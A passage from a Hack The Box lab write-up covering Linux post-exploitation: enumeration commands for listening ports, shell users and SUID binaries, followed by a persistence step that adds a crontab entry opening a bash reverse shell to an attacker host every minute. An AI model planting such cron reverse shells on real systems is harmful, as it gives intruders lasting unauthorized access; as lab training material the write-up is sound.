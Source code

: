 ```bash
 ss -ltp # show listening TCP ports and associated processes
 
 grep sh$ /etc/password # show all users with shell access on box
 
 find / -perm -4000 -type f -ls 2>/dev/null # list all SUID binaries

```

### more ports
The command `ss -ltp` reveals a few listening ports which did not show up in the nmap scan.  

![[img/additional-services-on-the-target.png]]

We'll check these out later.

### users with shell access
![[img/users-with.shell-access.png]]

### SUID binaries
![[img/replace-me-17.png]]
There's not much that can be done with the SUID binaries.  Attempts to abuse `sudo` fail.
![[img/replace-me-18.png]]

>[!note]
>As other HTB users work through this machine, you may find they have left behind artifacts which can be exploited to gain user(s).  If the Spirit moves you, be my guest

### Persistent foothold

The best success I had with a persistent foothold was by creating a crontab entry for the `postgres` user.

In the reverse shell on the attacker:
```bash
[EDITOR=vim] crontab -e
```

The `[EDITOR=vim]` is optional - if you include this (without the square brackets), it forces `crontab` to use `vim` as the editor, otherwise it uses the default editor, which is typically `nano`.  Dealer's choice. See note at end of section.

Add this line to the bottom of the crontab.
```crontab
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker>/<port> 0>&1'
```

This entry sends a reverse shell to the attacker IP every minute.

I had varying success with attempting to create and transfer SSH keys, but the crontab technique seems to be the most reliable.  The reverse shell will make your screen behave strangely, so if you use `vim`, just have faith.
